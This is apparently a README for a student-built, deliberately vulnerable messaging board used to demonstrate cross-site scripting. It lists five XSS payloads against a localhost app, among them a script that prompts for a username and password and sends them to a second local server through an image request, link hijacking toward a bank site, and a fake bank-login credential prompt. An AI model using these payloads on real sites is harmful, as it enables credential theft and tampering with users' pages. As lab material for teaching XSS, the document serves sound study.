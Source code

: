 # XSS-Vunerable-Board
A vunerable Messaging board like a mini-Twitter application.
By Hitesh, Pranati and Saumya.

Attack Scripts:
1. Reflected Attack:http://127.0.0.1:5000/search?input=%3Cscript%3Evar%20str%20=%20%22YOU%20HAVE%20BEEN%20HACKED%22;%20while(1){alert(str);str+=%22%20AGAIN%22;}%3C/script%3E

2. Online SBI @Posts:http://127.0.0.1:5000/search?input=%3Cscript%3Ewindow.onload%20=%20function()%20{var%20AllLinks=document.getElementsByTagName(%22a%22);%20AllLinks[2].href%20=%20%22https://www.onlinesbi.com/%22;%20}%3C/script%3E

3. DOM Attack:<img src=x onerror=alert(123)>

4. Phising Attack: http://127.0.0.1:5000/search?input=%3Cscript%3Eemail%3Dprompt%28%27Session+ended.+Login+again.Please+enter+your+username%27%2C%27+%27%29%3B+password%3Dprompt%28%27Please+enter+your+password%27%2C%27+%27%29%3B+read_html+%3D+%27%3Cimg+src%3D%22http%3A%2F%2F127.0.0.1%3A8000%2F%3Femail%3D%27%2Bemail%2B%22%26password%3D%22%2Bpassword%2B%27%22%3E%27%3B+alert%28%22You+are+good+to+go+now%21%22%29%3Bdocument.write%28read_html%29%3B%3C%2Fscript%3E

5. Stored Attack script:

http://freebankonline.com/banklogin.asp?err=<script>username=prompt('Please enter your username',' '); password=prompt('Please enter your password',' '); alert("username="+username+" and password="+password);</script>
